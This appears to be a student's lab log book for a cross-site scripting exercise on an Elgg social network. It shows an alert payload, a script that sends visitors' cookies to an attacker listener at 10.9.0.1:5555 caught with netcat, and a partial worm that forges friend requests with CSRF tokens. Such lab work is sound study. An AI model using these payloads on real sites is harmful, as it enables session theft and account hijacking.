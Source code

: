 # Log Book 10

## Task 1
For this task we want to inject a script into our profile. We achieved this by posting the following script into the field "Brief description":

```script
<script>alert('XSS');</script>
```

This script creates an alert window where it's displayed the string "XSS".

![](imgs/week10/task1.png)

## Task 2
By adding the following script to the field "Brief description" where we added the previous script in Task 1, an alert window is displayed with the user's cookies:

![](imgs/week10/task2.png)

## Task 3
In this task we want to be able to send the user's cookies to a server that belongs to the attacker. In the script bellow, we imbed the cookies that we want to send in a request that will be made to the attacker's machine:

```script
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```

By using the ```netcat``` command line tool to listen for any requests made from users that visited our profile, we can get the user's cookies contained in the requests.

![](imgs/week10/task3.png)

## Task 4
The objective of this task is to write a worm that adds Samy to a user's friend list when that user visits Samy's profile.

We can add Samy as a friend normally, and with the extension HTTP Header Live, we can find how a friend HTTP request is encoded:

![](imgs/week10/task4_addSamy.png)

Now we remove Samy as friend so that we can test the script. As we can see in the following image, Alice has no friends:

![](imgs/week10/task4_alice_profile.png)

Using this information, we can create a script that, when executed, forges a request that adds Samy as a friend to the logged in user.

```script
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;

//Construct the HTTP request to add Samy as a friend.

var sendurl=...; //FILL IN

//Create and send Ajax request to add friend

Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

Now we log in into Alice's account and visit Samy's profile. Then we go to Alice's profile and we can see that now, Alice and Samy are friends.

![](imgs/week10/task4_alice_profile.png)

### Question 1
The referenced lines serve to send the elgg token in our forged request so that the server evaluates the request as a valid request from the user.

### Question 2
A successful attack can't be launched since the Editor mode filters HTML special characters and we can't edit the inner HTML content of the field. Thus, injecting any script into the About Me field is not possible (if there's only Text mode), as we can't submit the ```<script>``` tag into profile.

---

## CTF 10